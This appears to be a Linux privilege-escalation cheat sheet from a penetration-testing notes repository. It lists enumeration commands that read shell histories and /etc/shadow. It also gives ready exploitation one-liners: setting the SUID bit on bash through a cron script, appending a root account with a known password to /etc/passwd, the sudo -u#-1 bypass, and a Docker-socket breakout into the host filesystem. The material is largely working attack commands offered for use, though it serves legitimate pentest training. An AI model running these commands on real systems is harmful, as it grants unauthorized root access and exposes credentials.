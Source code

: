 ## Linux Privilege Escalation

### Enumeration
-> Get system distribution and version
```
cat /etc/*-release
```

-> Get kernel version
```
cat /proc/version   
uname -a
```

-> View variable environments 
```
env
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
cat ~/.zshrc
```

-> View user command history
```
cat ~/.bash_history
cat ~/.zsh_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
```

-> Services
```
ps -aux
cat /etc/service
```

-> View network interfaces and connections
```
ifconfig
ip addr
```

-> Get DNS resolver and hosts mapped to an IP
```
cat /etc/resolv.conf
cat /etc/hosts
```

-> Get system user, group and password information
```
cat /etc/passwd
cat /etc/shadow
```

### Crontab [PrivEsc]
-> Enumeration  
```
cat /var/log/cron.log                                                                                                                                              
cat /etc/crontab
```

-> Exploitation  
```
echo "chmod +s /bin/bash" >> script.sh
```

### SUID [PrivEsc]
-> Enumeration 
```
find / -perm -u=s -type f 2>/dev/null
```
-> Exploitation  
https://gtfobins.github.io/

### Capabilities [PrivEsc]
-> Enumeration  
```
getcap -r / 2>/dev/null
```
-> Exploitation  
https://gtfobins.github.io/

### Binary with Sudo [PrivEsc]
```
sudo -l
```
or  
```
cat /etc/sudoers
```
-> Exploitation  
https://gtfobins.github.io/

### Passwd Writabble [PrivEsc]
-> Enumeration  
```
ls -la /etc/passwd
```
-> Exploitation  
```
echo "okays:$(openssl passwd okay2):0:0:root:/root:/usr/bin/bash" >> /etc/passwd
```

### NFS Root Squashing

### sudo < v1.28 - @sickrov [PrivEsc]
```
sudo -u#-1 /bin/bash
```

### Docker Breakout [PrivEsc]
-> Search the socket
```
find / -name docker.sock 2>/dev/null
```
-> list images  
```
docker images
```
-> Exploitation
```
docker run -it -v /:/host/ <image>:<tag> chroot /host/ bash
```

### Linux Enumeration Tools [PrivEsc]

-> Linpeas
```
./linpeas.sh
```
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

-> Unix Privesc Check
```
./unix-privesc-check
```
https://pentestmonkey.net/tools/audit/unix-privesc-check
